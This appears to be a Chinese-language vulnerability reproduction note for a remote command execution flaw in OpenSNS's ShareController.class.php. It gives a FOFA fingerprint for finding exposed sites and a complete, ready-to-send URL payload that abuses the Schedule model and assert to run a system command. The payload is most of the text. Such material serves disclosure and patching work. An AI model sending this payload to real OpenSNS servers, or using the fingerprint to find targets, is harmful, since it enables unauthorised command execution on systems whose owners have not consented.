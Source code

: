 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![](./images/202202170923817.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![image-20220518154015894](./images/202205181540972.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

![](./images/202202170923310.png)
